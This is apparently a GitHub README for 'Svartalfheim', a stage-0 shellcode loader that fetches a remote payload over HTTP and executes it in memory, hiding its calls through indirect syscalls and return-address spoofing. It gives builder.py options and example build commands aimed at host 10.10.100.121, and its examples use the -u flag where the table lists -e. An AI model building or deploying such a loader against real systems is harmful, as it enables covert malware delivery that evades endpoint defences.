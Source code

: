 # Svartalfheim

Stage 0 Shellcode to Download a Remote Payload and Execute it in Memory

The Nt API calls ```NtAllocateVirtualMemory``` and ```NtProtectVirtualMemory``` are made using indirect syscalls.

LoadLibraryA and WinHTTP calls are performed with return address spoofing.

# Usage

<table>
  <thead>
    <tr>
      <th>Option</th>
      <th>Description</th>
      <th>Required</th>
      <th>Default Value</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>-e</td>
      <td>Http endpoint</td>
      <td>Yes</td>
      <td></td>
    </tr>
    <tr>
      <td>-u</td>
      <td>Http uri</td>
      <td>Yes</td>
      <td></td>
    </tr>
    <tr>
      <td>-p</td>
      <td>Http port</td>
      <td>Yes</td>
      <td></td>
    </tr>
    <tr>
      <td>-a</td>
      <td>User agent</td>
      <td>No</td>
      <td>Mozilla/5.0 (Windows NT 10.0; Win64; x64)</td>
    </tr>
    <tr>
      <td>-s</td>
      <td>Use TLS</td>
      <td>No</td>
      <td>Empty</td>
    </tr>
  </tbody>
</table>

Example :
- python3 builder.py -u 10.10.100.121 -u /path/to/shellcode.bin -p 80
- python3 builder.py -u 10.10.100.121 -u /path/to/shellcode.bin -p 443 -s

# Credit

- https://github.com/kyleavery/AceLdr
- https://github.com/realoriginal/titanldr-ng
- https://www.unknowncheats.me/forum/anti-cheat-bypass/268039-x64-return-address-spoofing-source-explanation.html
- https://github.com/trickster0/TartarusGate
